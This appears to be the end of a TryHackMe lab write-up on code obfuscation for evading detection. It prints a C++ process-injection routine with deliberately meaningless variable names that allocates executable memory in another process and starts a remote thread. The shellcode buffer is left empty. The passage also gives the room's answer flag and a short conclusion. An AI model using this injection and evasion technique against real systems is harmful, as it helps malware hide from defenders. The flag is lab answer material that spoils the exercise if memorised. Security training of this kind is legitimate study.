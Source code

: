 ```
        unsigned char awoler[] = "";

        HANDLE awerfu;
        HANDLE rwfhbf;
        PVOID iauwef;

        awerfu = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
        iauwef = VirtualAllocEx(awerfu, NULL, sizeof awoler, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
        WriteProcessMemory(awerfu, iauwef, awoler, sizeof awoler, NULL);
        rwfhbf = CreateRemoteThread(awerfu, NULL, 0, (LPTHREAD_START_ROUTINE)iauwef, NULL, 0, NULL);
        CloseHandle(awerfu);

        return 0;
}

```

![[Pasted image 20220916210810.png]]

*THM{Y0Ur_1NF0_15_M1N3}*

### Conclusion 



Obfuscation can be one of the most lucrative tools in an attackers arsenal when it comes to evasion. Both attackers and defenders alike should understand and assess not only its uses but also its impacts.

In this room, we covered the principles of obfuscation as it relates to both signature evasion and anti reverse-engineering.

The techniques shown in this room are generally tool-agnostic and can be applied to many use cases as both tooling and defenses shift.

At this point, you can take obfuscation a step further into signature evasion where it is directly applied to signatures or use it at a higher-level with obfuscators.


Read the above and continue learning!

[[AV Evasion Shellcode]]